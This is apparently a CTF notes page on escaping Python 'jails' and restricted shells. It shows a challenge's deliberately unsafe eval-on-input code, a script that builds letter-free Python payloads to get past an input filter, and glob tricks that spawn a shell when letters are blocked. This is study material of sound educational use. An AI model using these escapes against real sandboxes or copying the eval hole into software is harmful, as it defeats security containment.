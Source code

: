 ```yaml
---
title: jail-escapes
date: 2018-08-14 07:55:46
---
```


# Python Interpreters

## Useful Knowledge

There's a lot you can do within an interpreter even without direct access to source.

1. `dir()` will list out all the available names inside the current space. You can also use `dir()` on a function to see what attributes and properties the function has.

2. `func_name.func_code` has a ton of useful properties to get information about the function. Among the most useful:
- `func_name.func_code.argcount` - Self-explanatory
- `func_name.func_code.co_code` - Gives you the bytecode representing the function.
- `func_name.func_code.co_consts` - Constant numbers and strings present inside the function.
- `func_name.func_code.co_varnames` - Names of variables inside the function.

## Eval to String when Alphanumeric Characters Disallowed

I first came across this problem during TJCTF 2018, "Mirror Mirror".
We were dropped into an REPL with the knowledge that there was a get_flag function.
Here is what the code looked like:
```python
super_secret_string = 'this_is_the_super_secret_string'
def get_flag(input):
	if input.isalnum() or '_' in input:
		return "Character not allowed"

    if(eval(input) == super_secret_string):
        if (something):
            print eval(input)[0] + ' is not a valid character\n'
            return
        print "nice, here's your flag" + flag
    else:
        print "You didn't guess the value of my super_secret_string\n"
```

Of course, most special functions were blocked so I couldn't view the flag directly.
With big credit to [http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/), we were able to create a string that would evaluate to another string, bypassing the input check. I stole the following from [https://ctftime.org/writeup/10677](https://ctftime.org/writeup/10677).

```python
def brainfuckize(nb):
    if nb in [-2, -1, 0, 1]:
        return ["~({}<[])", "~([]<[])",
                 "([]<[])",  "({}<[])"][nb+2]

    if nb % 2:
        return "~%s" % brainfuckize(~nb)
    else:
        return "(%s<<({}<[]))" % brainfuckize(nb/2)

def craftChar(n):
    beg = "`'%\xcb'`[{}<[]::~(~({}<[])<<({}<[]))]%("
    end = ")"
    mid = brainfuckize(n)

    return beg+mid+end

result = ""
for i in 'this_is_the_super_secret_string':
    result+= craftChar(ord(i))
    result+='+'

result = result[:-1]
```

# Restricted Shells

## No Letters

You can do tons of interesting things in a shell using shell expansions to call binaries even if you are restricted by the letters you can input. For example:

`/???/???/?????32` expands to /usr/bin/linux32, which will give you a simple dash shell. You could also run python using `/???/???/??????2`.
